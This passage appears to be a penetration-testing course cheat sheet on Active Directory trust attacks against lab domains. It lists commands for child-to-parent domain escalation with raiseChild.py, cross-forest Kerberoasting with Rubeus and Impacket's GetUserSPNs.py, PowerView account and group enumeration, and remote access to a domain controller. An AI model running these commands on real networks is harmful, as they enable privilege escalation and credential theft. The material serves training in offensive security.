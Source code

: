 #### Performing the Attack with raiseChild.py
```Shell
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
Impacket tool that automatically performs an attack that escalates from child to parent domain.


## Trust Relationships - Cross-Forest

### Cross-Forest Kerberoasting - Windows

#### Enumerating Accounts for Associated SPNs Using Get-DomainUser
```PowerShell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```
PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host.

#### Enumerating the mssqlsvc Account
```PowerShell
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
```
PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host.

#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag
```PowerShell
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```
Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host.

### Admin Password Re-Use & Group Membership

#### Using Get-DomainForeignGroupMember
```PowerShell
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```
PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host.

#### Accessing DC03 Using Enter-PSSession
```PowerShell
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```
PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host.

### Cross-Forest Kerberoasting - Linux

#### Using GetUserSPNs.py w/ the -request Flag
```Shell
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host.

